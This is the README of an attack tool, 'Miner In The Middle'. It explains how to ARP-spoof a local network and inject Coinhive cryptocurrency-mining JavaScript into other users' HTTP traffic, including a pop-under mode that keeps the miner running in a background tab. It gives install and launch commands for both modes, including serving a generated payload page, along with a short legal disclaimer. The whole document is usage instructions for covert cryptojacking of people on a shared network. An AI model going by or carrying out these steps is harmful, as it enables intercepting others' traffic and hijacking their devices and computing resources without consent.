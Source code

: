 
		
Miner In The Middle
Author - Anthony Russell
@DotNetRussell

Not for illegal use!
(unless you own the network or have permission from everyone on it, it's illegal)
	 
INTRO:
Miner in the Middle is a script that allows you to inject javascript miners into everyone on your local network. It does this by arp spoofing the network and waiting for HTTP traffic. Once it sees it, it injects a coinhive javascript miner into the traffic and returns it to the client. The standard mode does this on whatever page the person is browsing. The pop under mode opens their requested page in a new tab and leaves the miner in the old tab. This allows for persistence. 
	 
	 
TO USE:	 
	 
You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
To install dependencies run:
        `./miner_itm.sh --install`
	
   ----To launch a standard miner attack----
	
   The standard network attack arp spoofs the network, then injects a miner into http responses.
   To launch a standard miner injection attack run:
      ` ./miner_itm.sh <coinhive api key> <gateway ip> <interface name>`
	
	
   ----To launch a popup miner attack----
	
   A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button.
   When they do it will spawn a popup with their site in it and the origonal window will launch a miner. This is nice for persistence. 
	
   First run:
      ` ./miner_itm.sh --generate <coinhive api key>`
	
   and place payload.html into your web server root directory
	
   Second run:
    `   ./miner_itm.sh -p <gateway ip> <interface name> <web server ip>`
	
	

